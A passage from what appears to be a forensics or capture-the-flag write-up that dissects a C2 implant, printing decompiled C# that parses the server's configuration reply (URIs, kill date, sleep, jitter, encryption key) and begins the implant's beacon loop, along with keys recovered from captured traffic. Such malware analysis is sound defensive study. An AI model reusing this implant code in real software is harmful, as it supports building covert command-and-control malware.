 ```csharp
		Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
		Match match = regex.Match(text2);
		string randomURI = match.Groups[1].ToString();
		regex = new Regex("URLS10484390243(.*)34209348401SLRU");
		match = regex.Match(text2);
		string stringURLS = match.Groups[1].ToString();
		regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
		match = regex.Match(text2);
		string killDate = match.Groups[1].ToString();
		regex = new Regex("SLEEP98001(.*)10089PEELS");
		match = regex.Match(text2);
		string sleep = match.Groups[1].ToString();
		regex = new Regex("JITTER2025(.*)5202RETTIJ");
		match = regex.Match(text2);
		string jitter = match.Groups[1].ToString();
		regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
		match = regex.Match(text2);
		string key2 = match.Groups[1].ToString();
		regex = new Regex("IMGS19459394(.*)49395491SGMI");
		match = regex.Match(text2);
		string stringIMGS = match.Groups[1].ToString();
		ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);
	}
```

The C2 server replies to the initial GET request with the basic configuration for the implant (Random uris to make requests to, random urls, the kill date, sleep parameter, jitter and some PNGs used later for hiding the results of execution) and most importantly the new encryption key to be used in all future communications (stored in `key2`).

We can extract the reply from the C2 server from the .pcap and as we did with the cookie and decrypt it using the found key (`DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=`) to extract this parameters as well as the new encryption key.
```
NEWKEY8839394nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=4939388YEKWEN
# New key: nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=
```

After parsing all the parameters, `ImplantCore()` is called:

```csharp
private static void ImplantCore(string baseURL, string RandomURI, string stringURLS, string KillDate, string Sleep, string Key, string stringIMGS, string Jitter)
{
	UrlGen.Init(stringURLS, RandomURI, baseURL);
	ImgGen.Init(stringIMGS);
	pKey = Key;
	int num = 5;
	Regex regex = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
	Match match = regex.Match(Sleep);
	if (match.Success)
	{
		num = Parse_Beacon_Time(match.Groups["t"].Value, match.Groups["u"].Value);
	}
	StringWriter stringWriter = new StringWriter();
	Console.SetOut(stringWriter);
	ManualResetEvent manualResetEvent = new ManualResetEvent(initialState: false);
	StringBuilder stringBuilder = new StringBuilder();
	double result = 0.0;
	if (!double.TryParse(Jitter, NumberStyles.Any, CultureInfo.InvariantCulture, out result))
	{
		result = 0.2;
	}
	string cmd;
```
